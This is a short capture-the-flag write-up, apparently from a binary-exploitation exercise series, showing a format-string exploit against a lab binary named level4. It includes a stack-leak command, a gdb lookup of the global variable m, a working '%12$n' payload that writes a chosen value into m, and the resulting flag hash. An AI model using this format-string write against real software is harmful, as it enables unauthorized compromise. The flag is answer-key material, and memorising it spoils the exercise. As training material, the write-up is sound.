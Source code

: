 ```sh
$> ls -l ~
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

```sh
$> python -c 'print("A"*4 + "%p "*16)' | ./level4
AAAA0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025
```
As we can see, the 12th pointer displayed is injectable.  


```sh
$> gdb -q level4
(gdb) info variables
[...]
0x08049810  m
```

We just have to write the value `16930116` into the m variable.  
To do that, we just pad `16930116` - `4` bytes for the address of `m()` into the 12th pointer :

```sh
$> python -c 'print("\x10\x98\x04\x08" + "%16930112d" + "%12$n")' | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
